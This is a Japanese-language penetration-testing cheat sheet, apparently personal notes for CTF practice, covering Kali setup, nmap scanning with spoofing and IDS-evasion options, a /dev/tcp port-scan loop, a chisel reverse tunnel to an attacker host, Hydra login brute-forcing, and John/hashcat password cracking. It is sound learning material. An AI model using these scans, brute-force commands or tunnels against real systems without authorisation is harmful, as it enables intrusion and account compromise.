


# Settings
## Kaliの環境構築

kali linuxを起動して以下のコマンドを実行

```bash
sudo systemctl enable ssh
sudo systemctl start ssh
ip a

# tryhackmeの場合は攻撃対象にアクセスするためにVPN接続する
sudo openvpn --config OPENVPN_FILE

# 以上の手順のエイリアス
thm
```

ホストからssh接続

```bash
ssh USER_NAME@IP_ADDRESS

# 公開鍵認証を行う場合は秘密鍵のファイルを指定する
ssh USER_NAME@IP_ADDRESS -i id_rsa

# kaliに接続する場合のエイリアス
kali
```


## kaliでGUIのウィンドウが移動できなくなる不具合

以下のコマンドを実行して再起動して解決。

```bash
rm -rf .cache/xfce4
rm -rf .config/xfce4
```

`xfce` は似たような別の名前である可能性もある。
## Virtual Boxのネットワーク変更手順

稼働中の仮想マシンのネットワークの種類を変更した場合は変更を反映させるために以下のコマンドを実行してIPアドレスを再取得する必要がある。

```bash
sudo dhclient -r
sudo dhclient
```
## 攻撃対象のリダイレクト

攻撃対象にHTTPアクセスした場合にリダイレクトされることがある。リダイレクト先のページをローカルマシンから見るにはリダイレクト先URLの名前解決を行う必要がある。

リモートマシンとローカルマシンの `/etc/hosts` に以下の行を追記。

```bash
ATTACKED_IP REDIRECTED_DOMAIN
```

## SSHローカルフォワーディングでのリダイレクト

上記のリモートマシンでの設定に加えて、フォワーディング先のPCの `/etc/hosts` ファイルも同様に変更する必要がある。

windowsの場合はwindowキー + Rキーを押して `drivers` で検索し、 `/etc` フォルダ内の `hosts` ファイルを編集する。
## Burpのプロキシ
仮想マシンのKaliのポートをローカルにフォワードしてブラウザから当該ポートにアクセスする際、`.htb`ドメインまたは`localhost`への通信のみBurpでキャプチャするための設定。
### foxyproxy拡張機能
ブラウザに導入して`127.0.0.1`, `8081`のプロキシを作成。
Burpのプロキシ設定で拡張機能の設定に合わせる。
### Scope
Target Scopeの設定に以下の二つのスコープを追加。
- Host: `^([a-z0-9-]+\.)*\.?htb$`
- Host: `localhost`

# Recon
## Nmap

```bash
nmap [OPTIONS] IP_ADDRESS
```

### Live Host Discovery

ポートスキャンをする前段階でアクティブなシステムを発見する。

### OPTIONS(Live Host Discovery)

| オプション                   | 内容                      |
| ----------------------- | ----------------------- |
| -PR                     | ARPリクエストを用いる            |
| -sn                     | ポートスキャンをしない             |
| -PE                     | ICMP echoリクエストを用いる      |
| -PP                     | ICMP timestampリクエストを用いる |
| -PM                     | アドレスマスククエリを用いる          |
| -PS                     | TCP SYNを用いる             |
| -PA                     | TCP ACKを用いる             |
| -PU                     | UDPを用いる                 |
| -n                      | DNSクエリを送信しない            |
| -R                      | オフラインホストに対してもクエリを送信する   |
| —dns-servers DNS_SERVER | DNSサーバを指定する             |
| -sP                     | ポートスキャンしない              |

ICMPリクエストはブロックされやすい(windowsのファイアウォールではデフォルトでブロックされる)ので代わりにICMP timestampリクエストやアドレスマスククエリを用いることが多い。

権限を有するユーザがイーサネット内の攻撃対象をスキャンする場合はARPリクエストが使用される。

権限を有するユーザがイーサネット外の攻撃対象をスキャンする場合はICMP echoリクエストが使用される。

権限のないユーザがイーサネット外の攻撃対象をスキャンする場合はTCP-3 way handshakeが使用される(SYNパケットをポート80と443に送信する)。

`-PS` または `-PA` オプションを用いる場合はポート番号を指定することができる(デフォルトは80)。

```bash
# 21番を指定
nmap -PS21 sn IP_ADDRESS/24

# 21~25番を指定
nmap -PS21-25 sn IP_ADDRESS/24

# 80,443,8080番を指定
nmap -PS80,443,8080 sn IP_ADDRESS/24
```

### Port Scan

Nmapを用いたポートスキャンで検出するポートの状態は以下。

| 状態         | 説明                                            |
| ---------- | --------------------------------------------- |
| Open       | ポートが開いている                                     |
| Closed     | ポートにはアクセス可能だが何のサービスも使っていない                    |
| Filtered   | ポートにアクセスできないので開通状態が不明(ファイアウォールにブロックされている事が多い) |
| Unfiltered | ポートにはアクセスできるが開通状態が不明                          |
| Open       | Filtered                                      |
| Closed     | Filtered                                      |

### TCP flags

| フラグ | 説明                                         |
| --- | ------------------------------------------ |
| URG | urgent flag。先に送信したTCPセグメントよりも優先して処理される。    |
| ACK | acknowlegement flag                        |
| PSH | push flag。TCPに対してデータをアプリケーションにすぐに渡すことを求める。 |
| RST | reset flag。TCPコネクションを断絶する。                 |
| SYN | synchronize flag                           |
| FIN | これ以上送るデータが無いことを示す。                         |

### OPTIONS

|オプション|内容|
|---|---|
|-A|各サービスの詳細情報を表示|
|-sT|TCPスキャン|
|-sS|TCP SYNスキャン(3-way handshakeでないのでステルス)|
|-sU|UDPスキャン(デフォルト)|
|-sN|nullスキャン(TCPヘッダの6つのフラグが全て空のパケットを送信してREST,ACKが帰ってきた場合はポートが閉じていると判断)|
|-sF|finスキャン(TCPヘッダのfinフラグのみセットしたパケットを送信してREST,ACKが帰ってきた場合はポートが閉じていると判断)|
|-sX|Xmasスキャン(TCPヘッダのfin, psh, urgフラグのみセットしたパケットを送信してREST,ACKが帰ってきた場合はポートが閉じていると判断)|
|-sA|ackスキャン(TCPヘッダのackフラグのみセットしたパケットを送信)|
|-sW|windowスキャン(TCPヘッダのackフラグのみセットしたパケットを送信)|
|-sC|デフォルトのスクリプトを使用(サーバの詳細情報などを表示)|
|-sV|ソフトウェア名とバージョンを表示|
|-F|スキャンするポート数を100にする(デフォルトは1000)|
|-r|スキャンするポートの順番を整理|
|-v|スキャンの進捗を表示|
|-p|ポートを指定|
|-T<0-5>|スキャンタイミングを指定|
|—scanflags|任意のフラグをセット|
|—script|引数に任意のスクリプトを指定|
|—min-rate|1秒あたりに送信するパケット数の最小値を引数に指定|
|—max-rate|1秒あたりに送信するパケット数の最大値を引数に指定|
|—min-parallelism|パケット送信の並行実行数の最小値を引数に指定|
|-max-parallelism|パケット送信の並行実行数の最大値を引数に指定|
|—osscan-guess|OS検出の結果を推測|
|—system-dns|システムのDNSリゾルバーを使用|

権限のないユーザがTCPスキャンを行った場合、開いているTCPポートを発見することしかできない。

`-sN` `-sF` `-sX` スキャンはステートレスファイアウォール配下の攻撃対象にアクセスする際に有効(synフラグを空にすることで接続検知を回避できる場合がある)。ステートフルファイアウォールの場合はブロックされる。

`-sA` `-sW` スキャンをするとポートの状態に関わらずRSTが返ってくるが、スキャン対象にファイアウォールがかかっている場合にファイアウォールで守られていないポートを検出することができる。ファイアウォールの挙動を調べるのに有効。

`--scanflags` では `--scanflags RSTSYNFIN` のような形式で任意のフラグをセットできる。

`--script` の引数には任意のスクリプトを指定することができる。スクリプトは `/usr/share/nmap/scripts` に存在。スクリプトにはいくつかのカテゴリ(下表)が存在し、これを引数に取って実行することができる。

|カテゴリ|内容|
|---|---|
|auth|Authentication related scripts|
|broadcast|Discover hosts by sending broadcast messages|
|brute|Performs brute-force password auditing against logins|
|default|Default scripts, same as -sC|
|discovery|Retrieve accessible information, such as database tables and DNS names|
|dos|Detects servers vulnerable to Denial of Service (DoS)|
|exploit|Attempts to exploit various vulnerable services|
|external|Checks using a third-party service, such as Geoplugin and Virustotal|
|fuzzer|Launch fuzzing attacks|
|intrusive|Intrusive scripts such as brute-force attacks and exploitation|
|malware|Scans for backdoors|
|safe|Safe scripts that won’t crash the target|
|version|Retrieve service versions|
|vuln|Checks for vulnerabilities or exploit vulnerable services|

使用例

```bash
# カテゴリを指定する場合はクォーテーション不要
--script=auth

# 特定のスクリプトを指定する場合はクォーテーションが必要
--script="http-cors.nse"

# ワイルドカードも使用可能
--script="ftp*"
```

主要プロトコルのポート番号

|プロトコル|ポート|
|---|---|
|HTTP|80|
|FTP|21|
|SMTP|25|
|POP3|110|
|IMAP|143|
|HTTPS|443|
|FTPS|990|
|SMTPS|465|
|POP3S|995|
|IMAPS|993|

ポートの指定方法は以下。

```bash
# 22,80,443を指定
-p22,80,443

# 20~25を指定
-p20-25

# すべてのポート(65535)を指定
-p-

# 10個の主要ポートを指定
--top-ports 10
```

スキャンタイミングは以下の6種類がある。

- paranoid(0)
- sneaky(1)
- polite(2)
- normal(3)
- aggressive(4)
- insane(5)

デフォルトは3。数字が大きくなるほど高速になるがパケットロスも大きくなりスキャンの正確性が下がる。CTFでは4が用いられることが多い。

### Spoofing and Decoys

変造された(なりすまし)IPアドレスを用いたスキャン。攻撃対象からの応答をキャッチできる場合にのみ有効。

```bash
nmap -e NET_INTERFACE -Pn -S SPOOFED_IP IP_ADDRESS
```

OPTIONS

|オプション|内容|
|---|---|
|-S|Spoofing|
|-e|ネットワークインターフェースを引数に指定|
|-Pn|pingスキャン(疎通確認)をしない|
|—spoof-mac|なりすましMACアドレスを引数に指定(攻撃対象と同一のイーサネットの場合のみ有効)|
|-D|引数に囮のIPアドレスを指定|

`-D` オプションを用いて囮を指定する場合は攻撃者のIPアドレスを　`ME` に含めることができる。

```bash
# 1番目に10.10.0.1, 2番目に10.10.0.2
# 3番目にランダムなIPアドレス, 4番目に攻撃者自身のIPアドレスを指定
-D 10.10.0.1,10.10.0.2,RND,ME IP_ADDRESS
```

### Fragmented Packets

nmapにより送信されるパケットをいくつかに分割してファイアウォールやIDSによる検知を避ける。

OPTION

|オプション|内容|
|---|---|
|-f|データを8バイト以下に分割|

### Idle/Zombie Scan

nmapのパケットがidle/zombie hostから送信されているように見せかける。

OPTION

|オプション|内容|
|---|---|
|-sI|引数にIdle IPアドレスを指定|

### Service Detection

各ポートで展開されるサービスの情報を表示する。

OPTION

|オプション|内容|
|---|---|
|-sV|バージョン情報を表示|

`-sV` オプションはバージョン情報の取得のためにTCP 3way handshakeを用いる必要があるので `-sS` オプションと併用できない。

### OS Detection

攻撃対象のOSの情報を表示する。

|オプション|内容|
|---|---|
|-O|OS情報を表示|

### Saving the Output

nmapで得られた結果を保存する。主に以下の3種類で保存できる。

- Normal( `-oN FILENAME` )
- Grepable( `-oG FILENAME` )
- XML( `-oX FILENAME` )

3種類すべての形式で保存したい場合は `-oA` を用いる。
### Practice(nmap)
- 見慣れないポート番号がある場合は番号を検索してサービスを特定する
- ブラウザなどで当該サービスにアクセスできない場合はCLIがないか検索する
- まずはデフォルトのTCPスキャンを行い、何も手がかりがない場合はUDPスキャン( `-sU` )をやってみる。時間がかかることに注意
- IPv6アドレスが存在する場合は`-6`をつけて別途スキャン
```bash
nmap $IP -T4 -v --min-rate=5000 -p-

nmap $IP -sCV -T4 -v -A -p -oN nmap.txt
# 上の2つのコマンドを一度に実行するには以下
nmap $IP -sCV -A -T4 -v -oN nmap.txt -p$(nmap $IP -T4 -v --min-rate=5000 -p- | grep ^[0-9] | cut -d '/' -f 1 | tr '\\n' ',' | sed 's/,$//')
nmap $IP -sU -T4 -v --min-rate=5000 -p-

# IPv6スキャン
nmap IPV6_ADDRESS -6 -T4 -p- --min-rate=5000 -oN nmap_ipv6.txt
```
## シェルスクリプトによるポートスキャン
docker環境への侵入時など、nmapがない環境でホストのポートをスキャンするには以下のシェルスクリプトを実行すれば良い。
```bash
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/IP_ADDRESS/$PORT
&>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
```
## whois

WHOISサーバーにアクセスしてドメインの登録者情報を参照する。

```bash
whois DOMAIN_NAME
```

## nslookup

Name Server Look Upの略。ドメインに対応するIPアドレスやメールサーバなどの情報を参照する。

```bash
nslookup OPTIONS DOMAIN_NAME SERVER
```

### OPTIONS

クエリの種類(下表)を指定する。

|クエリ|内容|
|---|---|
|A|IPv4 Addresses|
|AAAA|IPv6 Addresses|
|CNAME|Canonical Name|
|MX|Mail Servers|
|SOA|Start of Authority|
|TXT|TXT Records|

### SERVER

クエリ参照したいDNSサーバを指定する。主要なものは下表。

|提供元|サーバ|
|---|---|
|Cloudflare|1.1.1.1 or 1.0.0.1|
|Google|8.8.8.8 or 8.8.4.4|
|Quad9|9.9.9.9 or 149.112.112.112|

### 使用例

```bash
nslookup -type=A tryhackme.com 1.1.1.1
```

## dig

Domain Information Groperの略。機能はnslookupと同様だが、より詳しい情報を提供する。

```bash
dig [@SERVER] DOMAIN_NAME [TYPE]
```

### 使用例

```bash
dig @1.1.1.1 tryhackme.com MX
```

## DNSDumpster

上記のnslookupやdigコマンドの機能に加え、サブドメインも調べることができる。

[DNSDumpster.com - dns recon and research, find and lookup dns records](https://dnsdumpster.com/)

## [Shodan.io](http://Shodan.io)

インターネットに接続されたサーバの包括的な検索ツール。

```cardlink
url: https://www.shodan.io/
title: "Shodan"
description: "Search engine of Internet-connected devices. Create a free account to get started."
host: www.shodan.io
image: https://www.shodan.io/static/img/opengraph.png
```
[Shodan Search Engine](https://www.shodan.io/)
## ping

攻撃対象がオンラインかどうかパケットを送信して確認する。

```bash
ping [OPTIONS] IP_ADDRESS
```

`-c`オプションで送信するパケットの個数を指定する。(e.g. `-c 10` )

## traceroute

攻撃元から攻撃対象へのルーティングを調べる。IPヘッダのTTLフィールドを利用して攻撃対象へ至る経路中のノードとなるルータの情報を収集する。

```bash
traceroute IP_ADDRESS
```


# Transfer

## telnet

元々は遠隔デバイスにCLIから接続するためのツールだった(これを暗号化したものがSSH)が、TCPプロトコルを用いた簡単なものなので攻撃対象のサーバの情報収集などに転用されることがある。

HTTP

```bash
telnet IP_ADDRESS 80

# 上記のコマンド実行後、HTTPプロトコルを指定する
GET / HTTP/1.1 # Shift + Enterで改行
host: telnet # 適当なホスト名を指定しないとエラーになる
## Enterを二回押して実行
```

FTP

```bash
telnet IP_ADDRESS 21
USER xxxx # ユーザ名を入力
PASS xxxx # パスワードを入力

STAT # ステータスを表示するコマンド
SYST # システムの種類を表示するコマンド
PASV # FTPをpassiveモードに切り替えるコマンド
TYPE A # ファイルの授受をASCIIに切り替え
TYPE I # ファイルの授受をバイナリに切り替え
```

FTPにはactiveのpassiveの２つの種類がある。
active: FTPサーバの20番ポート由来の経路でデータを授受
passive: FTPクライアントの1023番ポート由来の経路でデータを授受
ちなみにtelnetではファイルのやり取りはできない。

## NetCat

クライアントサイドでは任意のポートにアクセス、サーバサイドでは任意のポートを開くことができる。

### クライアントサイド

```bash
nc IP_ADDRESS PORT
GET / HTTP/1.1
host: netcat
```

### サーバサイド

```bash
nc [OPTIONS] -lvnp PORT
```

OPTIONS

|オプション|意味|
|---|---|
|-l|待ち状態|
|-p|引数にポート番号を取る|
|-n|名前解決を行わない|
|-v|冗長モード|
|-vv|クソ冗長|
|-k|クライアントとの接続切断後もリスニングする|
|-e|引数に接続後に実行するプログラムを取る|

-pは引数にポート番号をとるのでオプションを複数指定する場合はpを最後に指定する必要がある(e.g. `-lvnp 1234` )
## FTP

ファイルの授受を行うプロトコル。

```bash
ftp IP_ADDRESS [PORT]

# テキストファイルのやりとりをする
ascii

# 使用できるコマンド一覧を表示
help

# ファイル一覧を表示
dir

# ファイル一覧を表示
ls

# 接続終了
exit

# ファイルをダウンロード
get FILE_NAME

# ファイルをアップロード
put FILE_NAME

# 複数ファイルをダウンロード
mget

# まとめてダウンロード
mget *

# 複数ファイルをアップロード
mput
```

### Anonymous FTP

FTPを誰でも匿名で利用できるようにする仕組み。一般的なFTPでは接続時にユーザIDとパスワードが必要だが、anonymous FTPではユーザIDを `anonymous` とすることで任意のパスワード(メールアドレスにするのが流儀)で接続できる。

### LFTP

高機能なFTPクライアント。通常のftpコマンドと比べて、ミラーリングやバッチ処理などの高度な機能を備えている。

```powershell
lftp IP_ADDRESS -u username

# lftpのシェルにおいて証明書エラーが出る場合は証明書の検証を無視する設定を追加
set ssl:verify-certificate no
```
## chisel
websocketを利用したOSSのTCPトンネリングツール。
ペネトレ対象の内部へのアクセスを獲得した場合において、内部からのみアクセスできるポートを転送してローカルからアクセスできるようにする場合などに有効。
GitHubから環境に応じたバージョンを対象内部・ローカル両方にインストールする。２つのバージョンは一致している必要がある。
[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
```bash
# 上記のシナリオの場合

# ローカル
chisel server -p ATTACKER_PORT --reverse

# 攻撃対象
chisel client ATTACKER_IP:ATTACKER_PORT R:PORT:IP:PORT

# ローカルから以下のURLでアクセスできる
<http://127.0.0.1>:PORT
```
`PORT` には転送したいポート、 `IP` には攻撃対象のIPアドレスを入力する。
# Brute Force
## Hydra

辞書攻撃を行うコマンド。

```bash
hydra -l USER_NAME -P WORD_LIST_PATH SERVER SERVICE
hydra -l USER_LIST_PATH -P WORD_LIST_PATH SERVICE://SERVER:PORT
```
### OPTIONS

|オプション|内容|
|---|---|
|-L|引数にユーザ名のリストファイルを指定|
|-l|引数にユーザネームを指定|
|-P|引数にパスワードリストファイルのパスを指定|
|-p|引数にパスワードを指定|
|-s|引数にデフォルト以外のポートを指定|
|-V|攻撃の進捗を表示|
|-t|引数に攻撃対象への同時(並行)接続数を指定|
|-d|デバッグ情報を表示|
|-v|冗長モード|

ワードリストのパスは `/usr/share/wordlists/` 。

### 使用例1

```bash
hydra -L users.txt -P cewl.txt dc-2 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

**`http-form-post`**で攻撃の種類を指定している。ここではHTTPのPOSTメソッドを使ったフォーム送信を行う。

以降の文字列はPOSTリクエストの内容。初めの `wp-login.php` はログインフォームのあるパスを指定している。リクエストの内容はburpなどで調べることができる。

`^` で囲まれた部分には先に指定したユーザ名とパスワードリストの中身が入る。

最後の `S=Location` では成功の条件としてHTTPヘッダーにLocationが存在する場合を成功とみなしている。

### 使用例2

```bash
hydra -l test -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt $IP http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```

最後の `/kzMb5nVYJw/index.php:key=^PASS^:invalid key` では `key` でformのname属性名を指定している。

コロン以下の部分でログイン失敗時にページが表示するエラーメッセージを示している。
## パスワードハッシュ

パスワードのハッシュ値の冒頭には生成に使われたアルゴリズムを示す符号がついている。

| 符号               | アルゴリズム  | 出力長    | 文字数(16進数エンコーディング) | 文字数(Base64エンコーディング) | 特徴                                                           |
| ---------------- | ------- | ------ | ----------------- | ------------------- | ------------------------------------------------------------ |
| $1$              | MD5     | 128bit | 32                | 24                  | 高速で計算が可能。セキュリティが低く、現在では推奨されない。主に整合性チェックや非セキュリティ目的で利用。        |
| $2a$, $2y$, $2b$ | bcrypt  | 可変     | 64                | 44                  | ソルト内蔵、レインボーテーブル攻撃を防ぐ。計算コスト調整可能で将来のハードウェア進化に対応。主にパスワード保存用。    |
| $5$              | SHA-256 | 256bit | 128               | 88                  | データの完全性と認証を確保するために広く利用。高い衝突耐性を持ち、セキュアな用途に適している。ブロックチェーンにも使用。 |
| $6$              | SHA-512 | 512bit | N/A               | 60 (一般的な設定で)        | 高いセキュリティを提供。大量データ処理や高セキュリティ環境に適しており、リソースを多く消費する。             |
## John the Ripper
パスワード(ハッシュ)解析ツール。
```bash
john --format=FORMAT --wordlist=WORDLIST_PATH FILE_PATH
```
`--format` オプションは必須ではないがハッシュアルゴリズムがわかっている場合は指定したほうが良い。フォーマット一覧は以下のコードで出力できる。
```bash
john --list=formats

# md5関連のものを表示
john --list=formats | grep -iF "md5"
```
パスワードマスクを指定する場合。
```bash
john --format= --mask= FILE_PATH
```
マスクの記号一覧。

|記号|意味|
|---|---|
|?l|小文字の英字|
|?u|大文字の英字|
|?d|数字|
|?s|特殊文字(`!@#$%^&*()-_=+[]{}` )|
|?h|16進数の小文字( `0-9, a-f` )|
|?H|16進数の大文字( `0-9, A-F` )|
|?a|任意の印字可能文字|

johnで一度解析したパスワードは `john.pot` ファイルに保存され、二度目以降は解析されないので以下のコマンドで表示する。
```bash
john --show [HASHFILE]
```
### Single Crack Mode
ユーザ名の情報を元にパスワードを推測する。
```bash
john --single --format=FORMAT FILE_PATH
```
このモードを使って`Mike` というユーザ名を基にパスワードを推測したい場合は、 `FILE_PATH` のフォーマットを以下の形式に変更する必要がある。
```bash
mike:HASH
```
### Word Mangling
例えば `Markus` というユーザ名の場合に `Markus1` , `MarKus` , `Markus!` のようにユーザ名を修正したパスワードにすること。
### pfx2john
pfxファイルにかかったパスワードを解析する。
```powershell
pfx2john PFX_FILE > OUTPUT_FILE
```
解析して得たパスワードを用いてpfxファイルの中身を確認。
```powershell
openssl pkcs12 -in PFX_FILE -nocerts -out OUTPUT_FILE
```
### Zip2John
zipファイルにかかったパスワードを解析する。
```bash
zip2john OPTIONS ZIP_FILE_PATH > OUTPUT_FILE
```

出力したファイルは解析したパスワードハッシュが書かれているので `john` コマンドを用いて解析する。
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt OUTPUT_FILE
```
### Cracking a Password Protected RAR Archive
`.rar` 形式のアーカイブファイルのパスワードを解析する。zipと同様にアーカイブファイルのパスワードハッシュを出力し、 `john` で解析する。
```bash
rar2john RAR_FILE > OUTPUT_FILE
```
`.rar` ファイルの解凍は以下。
```bash
unrar x RAR_FILE
```
### Cracking SSH Key Passwords
SSHに使うid_rsaを解析する。

```bash
ssh2john ID_RSA_FILE > OUTPUT_FILE

# ssh2johnがインストールされていない場合
python /usr/share/john/ssh2john.py ID_RSA_FILE > OUTPUT_FILE
```
## hashcat

パスワードクラッキングのツール。

```bash
hashcat -m ALGORYTHM_NUMBER HASH_FILE -o OUTPUT_FILE -w WORDLIST_PATH

# ヘルプから特定のCMS固有のハッシュモードを探す
hashcat --help | grep Drupal
```

ハッシュに加えてソルトが判明している場合は `HASH:SALT` のような形式でファイルに書き込んで適切なフォーマットを `hashcat -h | grep HASH` で検索。

### オプション

|オプション|説明|
|---|---|
|-m|クラッキング対象のアルゴリズムの番号(後述)を指定|
|-o|解析結果を出力するファイルを指定|
|-w|辞書攻撃に使用するファイルを指定|
|--identify|引数にハッシュアルゴリズムを判別したいファイルを指定|
|—force|警告を無視|
|-a|アタックモードを示す数字を引数に取る|

### アタックモード

[ChatGPT](https://chatgpt.com/c/67930261-f738-800e-9d3f-6cdaa048d83b)

### アルゴリズム番号

|アルゴリズム|番号|
|---|---|
|MD5|0|
|SHA1|100|
|SHA-256|1400|
|SHA-512|1700|
|bcrypt|3200|

### ルール

[rule_based_attack [hashcat wiki]](https://hashcat.net/wiki/doku.php?id=rule_based_attack)

大文字・小文字の変更・文字の挿入・削除・リバースなどの処理を文字列に対して行うことで新しい候補パスワードを生成する。

hashcatにはデフォルトのルールセットのファイルが `/usr/share/hashcat/rules/` に存在する。代表的なのは `/usr/share/hashcat/rules/best64.rule` や `/usr/share/hashcat/rules/rockyou-30000.rule` や `/usr/share/hashcat/rules/d3ad0ne.rule` など。

`-r` オプションでルールセットのファイルを指定してルールに基づくパスワードリストを生成する。

```bash
# PASSWORDという文字列にルールを適用して生成したパスワードリストをwordlist.txtとして出力
echo PASSWORD | hashcat -r /usr/share/hashcat/rules/best64.rule > wordlist.txt
```

パスワードクラックとルールの適用を同時に行うこともできる。

```bash
# wordlist.txtのパスワードにルールを適用した文字列でhash.txtのハッシュをクラック
hashcat -m 3200 hash.txt wordlist.txt --user -r /usr/share/hashcat/rules/best64.rule
```
## Hash Indentifier
ハッシュの種類を解読するpythonプログラム。
```bash
# ダウンロード
wget <https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py>
```
CLIで以下の形式で使用。
```bash
python3 hash-id.py HASH
```
## Directory Scan

### Gobuster
未知のファイル・ディレクトリ・サブディレクトリを発見するためのツール。
```bash
gobuster dir -u URL -w DICTIONARY_FILE_PATH -x html,txt,php
```
`dir` でディレクトリやファイルを列挙する。
オプションは以下。

|オプション|説明|
|---|---|
|-u|引数に対象のURLを指定する。|
|-w|辞書ファイルを指定する。|
|-x|指定のファイル拡張子を引数にとる|
|-s|引数に出力するステータスコードを取る。複数取る場合はカンマ区切り。|
|-o|引数に出力を保存するファイルを指定|
|-r|リダイレクト先を追跡|
|-k|SSL証明書をスキップ|
|-t|並列処理数を引数に取る。デフォルトは10。最大でも100くらいが目安|
|—exclude-length|引数に除外するContent-lengthのサイズを指定|
|-b|結果から除外するステータスコードを引数に取る。 `-s` との併用は不可。デフォルトは404。|
|-s|結果に含むステータスコードを引数に取る。 `-s` との併用は不可。|

gobusterはブルートフォースを行う前にテストとしてありえないディレクトリ名(e.g. `/c387b7bf-0c6c-4005-8008-4376f0b54373` のようなUUID)にリクエストを送信する。そのレスポンスにステータスコード `200` が返ってきた場合、何を試しても200になると判断して終了する。そのURLの `Content-length` のサイズを除外する指定をすることでブルートフォースが正常に実行できる。
`-x` オプションで拡張子を指定するとワードリスト内のすべての単語に指定した拡張子を追加したリクエストも送信するのでスキャンにかかる時間が指定した拡張子の数だけ長くなる。そのため最初は大きめのワードリストでディレクトリスキャンのみ行い、あとから拡張子を指定して小さめのワードリストでスキャンをしたほうがよい。
### feroxbuster

gobusterと同様にディレクトリスキャンを行うツール。

```html
feroxbuster -u URL
```
#### オプション

|オプション|説明|
|---|---|
|-w|ワードリストを引数に取る|
|-t|並列処理数を引数に取る|
|-x|拡張子を指定( e.g. `php,html` )|
|-o|アウトプットのファイルを引数に取る|
|—rate-limit|一秒あたりのリクエスト数を引数に取る(デフォルトは0 = 制限なし)|
|-f|ディレクトリの末尾に `/` を追加|
|-n|再帰スキャンしない|

### dirb
未知のファイルやディレクトリを発見するためのツール。
```bash
dirb URL -r
```
オプションは以下。

| オプション | 説明        |
| ----- | --------- |
| -r    | 再帰的に調査しない |
### Practice(dirscan)
- ディレクトリスキャンとファイル拡張子付きのスキャン両方をやったほうが漏れがなく確実
- ディレクトリスキャンのワードリストの例は以下。
	- `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
    - `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	    - 時間がかかるので`-x` オプションで拡張子を追加するのは避けたほうが良いかも
    - `/usr/share/seclists/Discovery/Web-Content/common.txt`
    - `/usr/share/seclists/Discovery/Web-Content/quickhits.txt`

```bash
# 先にディレクトリを列挙 feroxbusterの--scan-dir-listingsは列挙対象が爆発的に増える可能性があるので要注意
gobuster dir -u TARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 --no-error

feroxbuster -u <http://valentine.htb> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -C 404 -o directories.txt --scan-dir-listings

# 次にファイルの拡張子を指定して列挙
gobuster dir -u TARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 200 --no-error

feroxbuster -u <http://valentine.htb> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -C 404 -x html,txt,php -o files.txt
```
- サブドメインのワードリストの例は以下。
	- `/usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt`
	- `/usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt`
```bash
ffuf -u SCHEME://TARGET_DOMAIN -H "Host: FUZZ.TARGET_DOMAIN" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -c -t 200 -o subdomains.txt
```
- CMSやフレームワークの種類がわかっている場合はその固有のワードを集めたディレクトリリストを探して使ってみる
    - `cgi-bin`などのディレクトリが存在する場合は当該ディレクトリをターゲットに `.sh`や `.cgi`や `.pl` などのスクリプトの拡張子を指定して再スキャンしてみる
        - shellshockerなどの脆弱性がある可能性
    - ディレクトリスキャンで何も見つからない場合は `-f`オプションでディレクトリの後ろに `/`を追加して試してみる。ただしリクエスト数が倍増するので `-n` オプションと併用して再帰スキャンしないでおいた方がよい
- スキャナーで発見されていないディレクトリをburpなどで見つけた場合は当該ディレクトリをディレクトリスキャンのターゲットにして再スキャンしてみる
- adminなどの名前に注目
- ディレクトリスキャンで301や403となっているディレクトリでもその中のファイルにはアクセス可能な場合があるので再帰探索してみる
- ドメイン名が割り当てられている場合は当該ドメイン名でnmapを用いて再スキャンすると未知のディレクトリを発見できる可能性
## ffuf
FUZZツール。
```bash
